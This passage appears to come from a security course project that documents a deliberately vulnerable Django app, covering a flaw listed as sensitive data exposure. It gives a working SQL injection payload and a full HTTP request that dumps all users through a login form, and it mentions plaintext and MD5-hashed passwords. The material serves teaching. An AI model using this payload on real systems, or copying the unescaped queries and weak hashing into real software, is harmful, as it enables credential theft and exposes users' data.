 Fix can be found [here](https://github.com/raccna/csb-2021/blob/main/project1/mysite/myapp/views.py#L99)

## FLAW 5: [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)

### Source code

Flaw can be found [here](https://github.com/raccna/csb-2021/blob/main/project1/mysite/myapp/templates/flaw2.html#L117)

### Description

Exploitation in this scenario is two-folded:

1. Improper implementation of SQL parameter escape allows attacker to run malicious queies on the database. In the example attacker retrieves all users from the database via vulnerable login form.

2. Exposed passwords are in plain-text and hashed with insecure MD5 algorithm

### Exploitation

Navigate to form [http://127.0.0.1:8000/myapp/flaw-5](http://127.0.0.1:8000/myapp/flaw-5) and submit following payload as username or password.

```
=' UNION SELECT * FROM myapp_User--
```

Request:

```
POST /myapp/flaw-5 HTTP/1.1
Host: 127.0.0.1:8000
Content-Length: 182
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8000/myapp/flaw-5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM
Connection: close

csrfmiddlewaretoken=1TnkZF3wyAWPhPrcNhANxBZ93zfcDNeKLkhLyEz7QvwBqAph1Iu4wzPmS7S0i5m4&username=%3D%27+UNION+SELECT+*+FROM+myapp_User--&password=%3D%27+UNION+SELECT+*+FROM+myapp_User--
```
